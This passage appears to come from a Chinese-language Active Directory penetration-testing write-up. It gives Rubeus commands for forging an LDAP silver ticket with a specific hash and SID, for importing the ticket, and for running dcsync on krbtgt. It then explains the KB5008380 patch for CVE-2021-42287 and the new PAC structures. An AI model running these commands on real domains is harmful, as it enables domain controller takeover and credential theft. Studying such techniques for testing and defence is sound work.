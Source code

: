 如果 cifs 服务不可用，可以使用域控一定开放的 ldap 服务，然后导入票据执行 dcsync 再次打下域控：

```plain
Rubeus.exe silver /service:ldap/ad.endlessparadox.com /rc4:c783a03c8f07f1d75c2b741cd93fe8c0 /user:satoru /domain:ad.endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:satoru /password:FakePass /ticket:d·····
```

```plain
dcsync endlessparadox.com endlessparadox\krbtgt
```

[![](assets/1707953845-77538dc43ffd596ee32da1e2ccd0f896.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040737-356cd3e6-c462-1.png)

### KB5008380 身份验证更新

这个补丁为了解决[CVE-2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)引入了新的身份验证过程，在 2021 年 11 月 9 日至 2022 年 6 月 14 日之间发布的 Windows 更新中安装 CVE-2021-42287 保护后出现了个新的注册表：

```plain
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Kdc
```

默认情况下为 1，进行身份验证时，如果用户拥有新的 PAC，则该 PAC 会被验证。如果用户没有新的 PAC，则不会采取进一步的操作，如果为 2，用户没有新的 PAC，则身份验证将被拒绝；

2022 年 7 月 12 日或更高版本更新后，该值将不存在，用户要通过认证必须要使用新的 PAC；PAC 增加了两个数据结构 PAC\_ATTRIBUTES\_INFO 和 PAC\_REQUESTOR：

```plain
typedef struct _PAC_ATTRIBUTES_INFO {
     ULONG FlagsLength;                // specified in bits
     ULONG Flags[ANYSIZE_ARRAY];
 } PAC_ATTRIBUTES_INFO, *PPAC_ATTRIBUTES_INFO;
```
